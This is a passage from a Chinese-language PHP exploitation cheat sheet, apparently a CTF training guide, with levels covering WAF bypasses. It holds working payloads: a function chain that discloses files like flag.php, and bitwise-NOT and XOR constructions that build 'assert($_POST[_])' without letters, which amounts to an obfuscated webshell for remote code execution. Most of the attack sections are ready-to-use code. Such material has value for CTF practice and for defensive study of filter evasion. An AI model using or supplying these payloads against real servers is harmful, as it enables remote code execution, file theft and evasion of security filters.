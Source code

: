        * `current()` / `pos()`: 获取当前（第一个）元素。
        * `next()` / `prev()` / `end()` / `reset()`: 导航数组指针。
        * `array_flip()`: 交换键和值。
        * `array_rand()`: 从数组中获取一个随机键。
        * `array_slice()`: 提取数组的一个切片。
    4.  **文件读取/显示:** 使用接收文件名（通过步骤 2 & 3 获取）并显示其内容的函数。
        * `show_source()` / `highlight_file()`: 显示带有语法高亮的源代码。
        * `readfile()`: 输出文件内容。
        * `file_get_contents()`: 将整个文件读入字符串（需要 `print` 或 `echo` 来显示）。
        * `readgzfile()`: 有时也可以读取非 gzip 格式的文件。

* **示例 (显示当前目录下随机文件的源代码):**
    ```php
    // 1. localeconv() -> [decimal_point => '.', ...]
    // 2. current() -> '.' (当前目录)
    // 3. scandir('.') -> ['.', '..', 'index.php', 'flag.php', ...]
    // 4. array_flip() -> [ '.'=>0, '..'=>1, 'index.php'=>2, 'flag.php'=>3, ...]
    // 5. array_rand() -> 'flag.php' (返回一个随机 *键*)
    // 6. show_source('flag.php') -> 显示文件内容
    show_source(array_rand(array_flip(scandir(current(localeconv())))));
    ```

---

## Level 10 - 按位取反 (~) 绕过 (PHP)

* **概念:** 使用按位取反运算符 (`~`) 来从字符构造字符串，而不直接使用字母数字字符。这通常涉及对已知字符串（如 `_GET`, `Array` 或特定的 UTF-8 字符）应用 `~` 并连接结果。
* **机制:** 按位取反会翻转字符的 ASCII/UTF-8 表示的所有位。通过对精心选择的字符或字符串进行取反，可以获得构建函数名和命令所需的其他字符。这很复杂，通常需要反复试验或辅助脚本。
* **工具:** 用户提到了一个位于 `https://probiusofficial.github.io/PHP-inversion/` 的脚本/工具，它可能可以自动生成此类 payload。（注意：使用外部工具/脚本时务必谨慎）。
* **示例代码片段结构:** (概念性的，实际字符取决于目标字符串)
    ```php
    <?php
    // 示例结构，使用对 UTF-8 字符的按位取反
    // 目标: 构造 'assert' 和 '_POST'
    $____ = (~'瞰') . (~'和') . (~'和') . (~'的') . (~'半') . (~'始'); // 构造 'assert'
    $_____='_';
    $_____.= (~'俯') . (~'瞰') . (~'次') . (~'站'); // 构造 'POST', 追加到 '_'
    $_=$$_____; // $_ = $_POST ('$$_____' 解析变量名 '_POST')
    $____($_[_]); // assert($_POST[_])
    ?>
    ```

---

## Level 11 - 非字母数字代码执行 (PHP)

完全避免使用字母，仅使用符号和可能的数字来编写 PHP 代码的技术。对于绕过极端的 WAF 很有用。

1.  **XOR 绕过:**
    * 在字符串或字符（通常是通过 URL 编码表示的单字节字符串，如 `%01`）之间使用 XOR 运算符 (`^`) 来生成所需的字符。
    ```php
    <?php
    // 目标: assert($_POST[_]);
    $_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_ = "assert"
    $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__ = "_POST"
    $___=$$__; // $___ = $_POST (可变变量)
    $_($___[_]); // assert($_POST[_]);
    ?>
    ```
